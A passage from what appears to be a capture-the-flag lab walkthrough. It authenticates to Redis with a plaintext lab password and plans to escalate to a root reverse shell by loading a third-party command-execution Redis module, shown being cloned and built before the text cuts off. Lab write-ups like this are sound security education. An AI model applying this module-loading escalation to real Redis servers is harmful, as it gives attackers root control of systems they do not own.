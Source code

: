 ![](images/Pasted%20image%2020221117231607.png)

As `dan_smith` and via the `redis-cli`, confirm the password works.

```bash
127.0.0.1:6379> AUTH F2WHqJUz2WEz=Gqq
OK
```

`pspy` indicated earlier that `redis` is running as `root`. Leverage [n0b0dyCN's ExecuteCommand Redis Module](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand) to gain a reverse shell as `root`.

Download the `redis` module and stage it to the target.

```bash
$ git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand.git
Cloning into 'RedisModules-ExecuteCommand'...
remote: Enumerating objects: 494, done.
remote: Counting objects: 100% (117/117), done.
remote: Compressing objects: 100% (17/17), done.
remote: Total 494 (delta 101), reused 100 (delta 100), pack-reused 377
Receiving objects: 100% (494/494), 203.32 KiB | 3.33 MiB/s, done.
Resolving deltas: 100% (289/289), done.

$ cd RedisModules-ExecuteCommand

$ make
make -C ./src
make[1]: Entering directory '/home/tgihf/workspace/htb/boxes/shared/RedisModules-ExecuteCommand/src'
make -C ../rmutil
make[2]: Entering directory '/home/tgihf/workspace/htb/boxes/shared/RedisModules-ExecuteCommand/rmutil'
gcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../   -c -o util.o util.c
gcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../   -c -o strings.o strings.c
gcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../   -c -o sds.o sds.c
```